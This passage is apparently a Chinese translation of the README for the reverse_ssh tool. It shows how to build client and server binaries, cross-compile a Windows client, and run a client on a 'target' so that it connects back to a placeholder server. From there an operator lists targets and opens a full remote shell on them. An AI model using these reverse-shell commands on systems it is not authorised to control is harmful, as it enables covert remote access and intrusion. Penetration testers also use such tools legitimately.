 ## 跑步

```
# copy client to your target then connect it to the server
./client your.rssh.server.com:3232

# Get help text
ssh your.rssh.server.com -p 3232 help

# See clients
ssh your.rssh.server.com -p 3232 ls -t

                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root.wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+

# Connect to full shell
ssh -J your.rssh.server.com:3232 0f6ffecb15d75574e5e955e014e0546f6e2851ac

# Or using hostname 

ssh -J your.rssh.server.com:3232 root.wombo

```

## 设置说明

**注意:** reverse_ssh 要求 Go **1.17** 或更高版本。请通过`go version`检查您是否至少拥有该版本

最简单的构建命令是:

```
make
```

Make 将构建`client`和`server`二进制文件。它还会为`client`生成一个私钥，并将对应的公钥复制到`authorized_controllee_keys`文件中，使反向 shell 能够连接。

Golang 允许您毫不费力地进行交叉编译，下面是一个构建窗口的示例:

```
GOOS=windows GOARCH=amd64 make client # will create client.exe
```

你需要创建一个`authorized_keys`文件，很像 ssh[http://man.he.net/man5/authorized_keys](http://man.he.net/man5/authorized_keys)，其中包含*你的*公钥。这将允许您连接到 RSSH 服务器。

或者，您可以使用–authorized keys 标志指向一个文件。

```
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```
